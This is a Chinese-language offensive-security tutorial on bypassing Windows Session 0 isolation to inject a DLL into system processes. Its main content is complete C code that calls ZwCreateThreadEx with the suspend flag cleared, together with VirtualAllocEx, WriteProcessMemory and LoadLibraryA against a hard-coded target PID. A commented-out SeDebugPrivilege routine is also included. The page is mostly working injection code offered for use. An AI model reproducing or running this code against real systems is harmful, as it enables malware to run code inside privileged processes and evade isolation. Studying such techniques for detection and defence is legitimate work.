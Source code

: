 # Bypass Session 0 Injection

## 简介

在使用传统的进程注入技术的过程中，可以向普通用户用户进程注入shellcode或dll，那么如果我们想更进一步注入到系统进程内，通常会失败，这是由于session 0隔离的缘故，接下来本文会介绍如何突破session 0隔离进行对系统进程的注入。

## ZwCreateThreadEx函数

通过调用CreateRemoteThread创建远程线程在NT内核6.0以前是没有什么问题，但在6.0以后引入了session隔离机制，在创建一个线程时先挂起，然后判断是否运行在所在会话层再决定是否恢复运行。

ZwCreateThreadEx函数比CreateRemoteThread函数更接近内核，CreateRemoteThread最终也是调用ZwCreateThreadEx函数来创建线程的，通过前人的研究发现，通过对CreateRemoteThread逆向研究发现，在内部调用ZwCreateThreadEx会把第七个参数创建标识设置为1，这样会使创建的线程挂起，这也是注入失败的原因。

所以如果想要创建的线程成功执行我们需要将第七个参数指定为0，这样我们就能在创建线程后让他执行。

ZwCreateThreadEx函数原型在不同位数的系统中有细微差别。

![](../.gitbook/assets/image%20%2821%29.png)

```text
#ifdef _WIN64
	typedef DWORD(WINAPI *typedef_ZwCreateThreadEx)(
		PHANDLE ThreadHandle,
		ACCESS_MASK DesiredAccess,
		LPVOID ObjectAttributes,
		HANDLE ProcessHandle,
		LPTHREAD_START_ROUTINE lpStartAddress,
		LPVOID lpParameter,
		ULONG CreateThreadFlags,
		SIZE_T ZeroBits,
		SIZE_T StackSize,
		SIZE_T MaximumStackSize,
		LPVOID pUnkown);
#else
	typedef DWORD(WINAPI *typedef_ZwCreateThreadEx)(
		PHANDLE ThreadHandle,
		ACCESS_MASK DesiredAccess,
		LPVOID ObjectAttributes,
		HANDLE ProcessHandle,
		LPTHREAD_START_ROUTINE lpStartAddress,
		LPVOID lpParameter,
		BOOL CreateSuspended,
		DWORD dwStackSize,
		DWORD dw1,
		DWORD dw2,
		LPVOID pUnkown);
#endif
```

## 代码实现

该注入技术与经典WriteProcessMemory，CreateRemoteThread注入技术非常相似，只是把创建进程的函数从CreateRemoteThread换成了ZwCreateThreadEx。

```text
#include <Windows.h>
#include <stdio.h>

#ifdef _WIN64
typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
	PHANDLE ThreadHandle,
	ACCESS_MASK DesiredAccess,
	LPVOID ObjectAttributes,
	HANDLE ProcessHandle,
	LPTHREAD_START_ROUTINE lpStartAddress,
	LPVOID lpParameter,
	ULONG CreateThreadFlags,
	SIZE_T ZeroBits,
	SIZE_T StackSize,
	SIZE_T MaximumStackSize,
	LPVOID pUnkown);
#else
typedef DWORD(WINAPI* typedef_ZwCreateThreadEx)(
	PHANDLE ThreadHandle,
	ACCESS_MASK DesiredAccess,
	LPVOID ObjectAttributes,
	HANDLE ProcessHandle,
	LPTHREAD_START_ROUTINE lpStartAddress,
	LPVOID lpParameter,
	BOOL CreateSuspended,
	DWORD dwStackSize,
	DWORD dw1,
	DWORD dw2,
	LPVOID pUnkown);
#endif

typedef DWORD(WINAPI* typedef_LoadLibraryA)(char* path);
/*
BOOL EnbalePrivileges(HANDLE hProcess, char* pszPrivilegesName)
{
	HANDLE hToken = NULL;
	LUID luidValue = { 0 };
	TOKEN_PRIVILEGES tokenPrivileges = { 0 };
	BOOL bRet = FALSE;

	bRet = OpenProcessToken(hProcess, TOKEN_ADJUST_PRIVILEGES, &hToken);

	bRet = LookupPrivilegeValue(NULL, pszPrivilegesName, &luidValue);

	tokenPrivileges.PrivilegeCount = 1;
	tokenPrivileges.Privileges[0].Luid = luidValue;
	tokenPrivileges.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	bRet = AdjustTokenPrivileges(hToken, FALSE, &tokenPrivileges, 0, NULL, NULL);


	return TRUE;
}*/

int main(int argc, char* argv[]) {
	//EnbalePrivileges(GetCurrentProcess(), SE_DEBUG_NAME);

	char DllPath[] = "C:\\Users\\Black Sheep\\source\\repos\\sesion0\\x64\\Debug\\TestDll.dll";

	HANDLE hRemoteThread;

	HANDLE hNtModule = GetModuleHandleA("ntdll.dll");

	HANDLE hKeModule = GetModuleHandleA("Kernel32.dll");

	typedef_ZwCreateThreadEx ZwCreateThreadEx = GetProcAddress(hNtModule, "ZwCreateThreadEx");

	typedef_LoadLibraryA myLoadLibraryA = GetProcAddress(hKeModule, "LoadLibraryA");

	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 1516);

	LPVOID lpBaseAddress = VirtualAllocEx(hProcess, NULL, sizeof(DllPath)+1, MEM_COMMIT, PAGE_READWRITE);

	WriteProcessMemory(hProcess, lpBaseAddress, DllPath, sizeof(DllPath), 0);

	ZwCreateThreadEx(&hRemoteThread, PROCESS_ALL_ACCESS, NULL, hProcess, (LPTHREAD_START_ROUTINE)myLoadLibraryA, lpBaseAddress, 0, 0, 0, 0, NULL);

	CloseHandle(hRemoteThread);
	CloseHandle(hProcess);
	FreeLibrary(hKeModule);
	FreeLibrary(hNtModule);
	return 0;

}
```

![](../.gitbook/assets/image%20%283%29.png)

* github:[https://github.com/idiotc4t/sesion0](https://github.com/idiotc4t/sesion0)

## LINKS

《windows黑客编程》

{% embed url="https://kb.firedaemon.com/support/solutions/articles/4000086228-what-is-session-0-isolation-what-do-i-need-to-know-about-it-" %}



